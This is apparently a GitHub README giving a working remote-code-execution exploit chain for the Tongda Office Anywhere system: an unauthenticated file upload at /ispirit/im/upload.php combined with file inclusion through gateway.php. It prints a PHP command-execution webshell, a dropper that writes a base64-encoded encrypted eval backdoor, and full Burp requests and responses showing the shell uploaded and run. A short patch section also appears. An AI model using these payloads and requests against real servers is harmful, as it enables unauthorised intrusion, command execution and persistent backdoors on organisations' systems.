




# OA-tongda-RCE | Office Anywhere网络智能办公系统



## 后台Getshell



## 无需身份认证

1. 任意文件上传漏洞 /ispirit/im/upload.php

2. 本地文件包含漏洞 /ispirit/interface/gateway.php


## 命令执行绕过：

```
<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```

## GetWebshell
```
<?php
$fp = fopen('readme.php', 'w');
$a = base64_decode("PD9waHAKQGVycm9yX3JlcG9ydGluZygwKTsKc2Vzc2lvbl9zdGFydCgpOwppZiAoaXNzZXQoJF9HRVRbJ3Bhc3MnXSkpCnsKICAgICRrZXk9c3Vic3RyKG1kNSh1bmlxaWQocmFuZCgpKSksMTYpOwogICAgJF9TRVNTSU9OWydrJ109JGtleTsKICAgIHByaW50ICRrZXk7Cn0KZWxzZQp7CiAgICAka2V5PSRfU0VTU0lPTlsnayddOwoJJHBvc3Q9ZmlsZV9nZXRfY29udGVudHMoInBocDovL2lucHV0Iik7CglpZighZXh0ZW5zaW9uX2xvYWRlZCgnb3BlbnNzbCcpKQoJewoJCSR0PSJiYXNlNjRfIi4iZGVjb2RlIjsKCQkkcG9zdD0kdCgkcG9zdC4iIik7CgkJCgkJZm9yKCRpPTA7JGk8c3RybGVuKCRwb3N0KTskaSsrKSB7CiAgICAJCQkgJHBvc3RbJGldID0gJHBvc3RbJGldXiRrZXlbJGkrMSYxNV07IAogICAgCQkJfQoJfQoJZWxzZQoJewoJCSRwb3N0PW9wZW5zc2xfZGVjcnlwdCgkcG9zdCwgIkFFUzEyOCIsICRrZXkpOwoJfQogICAgJGFycj1leHBsb2RlKCd8JywkcG9zdCk7CiAgICAkZnVuYz0kYXJyWzBdOwogICAgJHBhcmFtcz0kYXJyWzFdOwoJY2xhc3MgQ3twdWJsaWMgZnVuY3Rpb24gX19jb25zdHJ1Y3QoJHApIHtldmFsKCRwLiIiKTt9fQoJQG5ldyBDKCRwYXJhbXMpOwp9Cj8+");
fwrite($fp, $a);
fclose($fp);
?>
```

## php Zend 解码

http://dezend.qiling.org/free.html

## 补丁修复 /ispirit/im/upload.php

原
```
<?php

set_time_limit(0);
$P = $_POST['P'];
if (isset($P) || $P != '') {
    ob_start();
    include_once 'inc/session.php';
    session_id($P);
    session_start();
    session_write_close();
} else {
    include_once './auth.php';
}
```

删掉了else判断，直接包含/auth.php
```
<?

//lp 2012/11/29 1:26:01 兼容客户端提交数据时无session的情况
if(isset($P) || $P!="")
{
   ob_start();
   include_once("inc/session.php");
   session_id($P);
   session_start();
   session_write_close();
}

include_once("./auth.php");
```

## auth.php

```
<?php

include_once 'inc/session.php';
session_start();
session_write_close();
include_once 'inc/conn.php';
include_once 'inc/utility.php';
ob_start();
if (!isset($_SESSION['LOGIN_USER_ID']) || $_SESSION['LOGIN_USER_ID'] == '' || !isset($_SESSION['LOGIN_UID']) || $_SESSION['LOGIN_UID'] == '') {
    sleep(1);
    if (!isset($_SESSION['LOGIN_USER_ID']) || $_SESSION['LOGIN_USER_ID'] == '' || !isset($_SESSION['LOGIN_UID']) || $_SESSION['LOGIN_UID'] == '') {
        echo '-ERR ' . _('用户未登陆');
        exit;
    }
}
```

## 版本路径
有些版本gateway.php路径不同

例如2013：

```
/ispirit/im/upload.php
/ispirit/interface/gateway.php
```
例如2017：

```
/ispirit/im/upload.php
/mac/gateway.php

C:\MYOA>dir /s /b gateway.php
C:\MYOA\webroot\mac\gateway.php
```

## Burpsuite upload file Request



```
POST /ispirit/im/upload.php HTTP/1.1
Host: 10.10.20.116:88
Content-Length: 658
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Connection: close

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"

123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--

```
## Response
```
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 18 Mar 2020 03:57:38 GMT
Content-Type: text/html; charset=gbk
Connection: close
Vary: Accept-Encoding
Set-Cookie: PHPSESSID=123; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 38

+OK [vm]2881@2003_938379153|jpg|0[/vm]
```
filename = 2003/938379153.jpg
## Burpsuite include file Request



```
POST /mac/gateway.php HTTP/1.1
Host: 10.10.20.116:88
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
Content-Length: 71
Content-Type: application/x-www-form-urlencoded

json={"url":"/general/../../attach/im/2003/938379153.jpg"}&cmd=net user
```

## Response

```
HTTP/1.1 200 OK
Server: nginx
Date: Wed, 18 Mar 2020 03:59:44 GMT
Content-Type: text/html; charset=gbk
Connection: keep-alive
Vary: Accept-Encoding
X-Frame-Options: SAMEORIGIN
Content-Length: 217


\\ 的用户帐户

-------------------------------------------------------------------------------
Administrator            Guest                    jas502n                  
命令运行完毕，但发生一个或多个错误。

```

## 参考链接

http://blog.fuzz.pub/2020/03/17/%E9%80%9A%E8%BE%BEoa%20RCE%20%E5%88%86%E6%9E%90/

http://cdndown.tongda2000.com/oasp/2019/2020_A1.rar
